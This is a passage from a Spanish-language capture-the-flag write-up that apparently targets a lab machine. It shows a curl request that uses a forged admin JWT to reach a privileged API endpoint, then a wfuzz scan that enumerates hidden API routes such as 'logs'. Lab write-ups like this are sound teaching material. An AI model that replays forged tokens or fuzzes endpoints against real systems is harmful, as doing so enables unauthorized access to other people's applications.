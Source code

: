 ![](/assets/img/Secret/image_7.png)

Al enviar una petición `http://10.129.246.38:3000/api/priv` comprobamos que `somos` usuarios `administradores`

```
# curl http://10.129.246.38:3000/api/priv -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NjdhYjMyYjU3YmZiNzA0N2EzZTJmZDAiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFzZGZAdGVzdC5jb20iLCJpYXQiOjE3MTkzNDAzMjB9.L5KCGvWNkVLN7BEUPAUczQTGYP-xDoXGOMzsbovgt_k'
{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}
```

Ahora que somos administradores `fuzzeamos` en busca de nuevas rutas y encontramos la ruta `logs` 

```
# wfuzz -c -t 200 --hh 93 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.129.246.38:3000/api/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.246.38:3000/api/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                               
=====================================================================

000004146:   401        0 L      2 W        13 Ch       "priv"                                                                                                                
000002271:   401        0 L      2 W        13 Ch       "logs"     
```

